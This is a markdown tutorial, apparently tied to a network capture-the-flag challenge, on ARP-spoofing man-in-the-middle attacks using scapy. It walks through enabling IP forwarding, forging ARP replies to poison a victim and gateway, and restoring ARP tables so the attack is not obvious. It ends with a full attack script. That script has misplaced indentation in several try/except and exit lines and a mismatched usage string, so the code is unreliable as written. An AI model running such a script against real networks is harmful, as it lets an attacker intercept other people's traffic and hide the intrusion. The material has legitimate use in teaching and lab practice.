

# ARP Spoofing(MiTM)

The hands-on for this is while solving the "Network Hunt" challenge.

> **Messing with ARP**
> 
> ARP attacks can potentially mess your LAN configuration. Be very cautious about testing these attacks/scripts in production environment(or in any network for that matter)
>     
> Fortunately any potential mis-configuration will be corrected to orignal state in few minutes. If you do happen to mess up your LAN, take a walk, come back several minutes later, pretend that the network was still working when you left.

    
In common hub networks all traffic can be seen by all hosts whose NICs (network interface card) are in promiscuous mode, but things are a bit different on switched networks.

A switch looks at the data sent to it and tries to only forward packets to its intended recipient based on the MAC address.

Switched networks are more secure and help speed up the network by only sending packets where they need to go.

There are ways around switches though. Using a program like Arpspoof (part of the Dsniff package), we can lie to other machines on the local area network and tell them we have the IP they are looking for, thus funneling their traffic through us.



In the above image, the attacker is telling Alan’s box that he has the IP that corresponds to Brian’s box and vice versa. By doing this the attacker receives all network traffic going between Alan and Brian. Once the attacker has ARP Spoofed his way between two nodes he can sniff the connection. By ARP Spoofing between a computer and the LAN’s gateway an attacker can see all the traffic the computer is sending out and receiving.

## Step 1 - IP forwarding

Make sure that the kernel IP forwarding is enabled, otherwise our machine will drop all traffic between the hosts we are trying to sniff, causing a denial of service.(“IP forwarding” is a synonym for “routing.” It is called “kernel IP forwarding” because it is a feature of the Linux kernel.)

```
>>> import os
>>> os.system('echo 1 > /proc/sys/net/ipv4/ip_forward')           # enable kernel IP forwarding
>>> os.system('echo 0 > /proc/sys/net/ipv4/ip_forward')           # disable kernel IP forwarding
```

More on kernel IP forwarding: [http://unix.stackexchange.com/questions/14056/what-is-kernel-ip-forwarding](http://unix.stackexchange.com/questions/14056/what-is-kernel-ip-forwarding)

## Step 2 - Gather MAC addresses

In order to create our ARP responses, we’ll need the victim and router MAC addresses. We can do this by making ARP requests and returning the result.

```
def get_mac(IP):
    ans, unans = srp(Ether(dst = "ff:ff:ff:ff:ff:ff")/ARP(pdst = IP), timeout = 2, iface = interface, inter = 0.1)
    for snd,rcv in ans:
        return rcv.sprintf(r"%Ether.src%")
```

## Step 3 - Tricking the Targets

In this step we are tricking eachmachine into thinking that the other party is our machine. ARP reply to each of the targets telling them that we are the other target, placing ourselves in between them.

```
def trick(gm, vm):
    send(ARP(op = 2, pdst = victimIP, psrc = gatewayIP, hwdst= vm))
    send(ARP(op = 2, pdst = gatewayIP, psrc = victimIP, hwdst= gm))
```

Step 4 - Un-doing the attack/ Re-ARPing

It’s not enough to trick the machines, once our attack is over, we need to re-assign the target’s addresses so they know where to send their information properly. If we don’t do this than it will be very obvious that something has happened.

```
def reARP():
    print "\n[*] Restoring Targets..."
    victimMAC = get_mac(victimIP)
    gatewayMAC = get_mac(gatewayIP)
    send(ARP(op = 2, pdst = gatewayIP, psrc = victimIP, hwdst = "ff:ff:ff:ff:ff:ff", hwsrc = victimMAC), count = 7)
    send(ARP(op = 2, pdst = victimIP, psrc = gatewayIP, hwdst = "ff:ff:ff:ff:ff:ff", hwsrc = gatewayMAC), count = 7)
        disable_ip_forwarding()
    print "[*] Shutting Down..."
    sys.exit(1)
```

## Final script

```
from scapy.all import *
import sys
import os
import time


def help_text():
    print("\nUsage:\n python hd_tcp_syn.py network_range\n")
    sys.exit()

def enable_ip_forwarding():
    print "\n[*] Enabling IP Forwarding...\n"
    os.system("echo 1 > /proc/sys/net/ipv4/ip_forward")

def disable_ip_forwarding():
    print "[*] Disabling IP Forwarding..."
    os.system("echo 0 > /proc/sys/net/ipv4/ip_forward")

def get_mac(IP):
    conf.verb = 0
    ans, unans = srp(Ether(dst = "ff:ff:ff:ff:ff:ff")/ARP(pdst = IP), timeout = 2, iface = interface, inter = 0.1)
    for snd,rcv in ans:
        return rcv.sprintf(r"%Ether.src%")

def reARP():

    print "\n[*] Restoring Targets..."
    victimMAC = get_mac(victimIP)
    gatewayMAC = get_mac(gatewayIP)
    send(ARP(op = 2, pdst = gatewayIP, psrc = victimIP, hwdst = "ff:ff:ff:ff:ff:ff", hwsrc = victimMAC), count = 7)
    send(ARP(op = 2, pdst = victimIP, psrc = gatewayIP, hwdst = "ff:ff:ff:ff:ff:ff", hwsrc = gatewayMAC), count = 7)
    disable_ip_forwarding()
    print "[*] Shutting Down..."
    sys.exit(1)

def trick(gm, vm):
    send(ARP(op = 2, pdst = victimIP, psrc = gatewayIP, hwdst= vm))
    send(ARP(op = 2, pdst = gatewayIP, psrc = victimIP, hwdst= gm))

def mitm():
    try:
        victimMAC = get_mac(victimIP)
    except Exception:
        disable_ip_forwarding()
        print "[!] Couldn't Find Victim MAC Address"
        print "[!] Exiting..."
    sys.exit(1)
    try:
        gatewayMAC = get_mac(gatewayIP)
    except Exception:
        disable_ip_forwarding()
        print "[!] Couldn't Find Gateway MAC Address"
    print "[!] Exiting..."
        sys.exit(1)
    print "[*] Poisoning Targets..."    
    while 1:
    try:
        trick(gatewayMAC, victimMAC)
            time.sleep(1.5)
    except KeyboardInterrupt:
        reARP()
        break

if __name__ == '__main__':
    if len(sys.argv) < 2:
        help_text()
    interface = sys.argv[1]
    victimIP = sys.argv[2]
    gatewayIP = sys.argv[3] 
    enable_ip_forwarding()
    mitm()
```